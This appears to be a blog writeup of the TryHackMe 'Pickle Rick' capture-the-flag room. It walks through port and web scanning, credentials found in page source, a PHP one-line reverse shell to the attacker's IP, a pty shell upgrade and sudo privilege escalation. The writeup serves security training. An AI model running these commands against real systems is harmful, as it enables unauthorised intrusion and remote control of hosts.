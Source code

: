 ```yaml
---
layout: post
title:  "TryHackMe Pickle Rick writeup"
date:   2020-09-29 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Pickle Rick](https://tryhackme.com/room/picklerick) that requires me to *exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.*

## nmap

We see that there are two open ports: ssh and http.

```bash
$ nmap -A -sC 10.10.68.235
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 08:08 EEST
Nmap scan report for 10.10.68.235
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5f:f1:57:75:ec:04:1c:10:94:0a:fd:77:9d:7f:ce:51 (RSA)
|   256 f8:6c:b7:68:71:d3:d6:7a:2a:11:04:e2:79:3f:12:ae (ECDSA)
|_  256 a2:10:41:7f:30:db:26:9f:0e:0e:e3:d7:51:d1:94:57 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http enumeration

```bash
$ gobuster -q --wordlist /usr/share/dirb/wordlists/big.txt --url http://10.10.68.235 dir
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

Let's take a look at the server. Page source reveals an username:

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

robots.txt has an interesting string `__REDACTED__` which could be a password.

```
nikto -host http://10.10.68.235
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.68.235
+ Target Hostname:    10.10.68.235
+ Target Port:        80
+ Start Time:         2020-09-29 09:23:10 (GMT3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
```

## 1st ingredient

Nikto found a login page. Logging in as R1ckRul3s/__REDACTED__ works. It's a command panel that executes commands. Let's run a reverse shell:

```bash
php -r '$sock=fsockopen("10.8.108.247",4444);exec("/bin/sh -i <&4 >&4 2>&4");'
$ cat Sup3rS3cretPickl3Ingred.txt
__REDACTED__
```

upgrade shell with python: 

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 2nd ingredient

Enumerate the file system from second ingredient:
 	
```bash
$ cd /home/rick
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
$ cat "second ingredients"
__REDACTED__
```

## 3rd ingredient

Escalate privileges. First thing to try if you know the password is sudo:

```bash
sudo -l
User www-data may run the following commands on
        ip-10-10-163-235.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
sudo less /root/3rd.txt
__REDACTED__
```
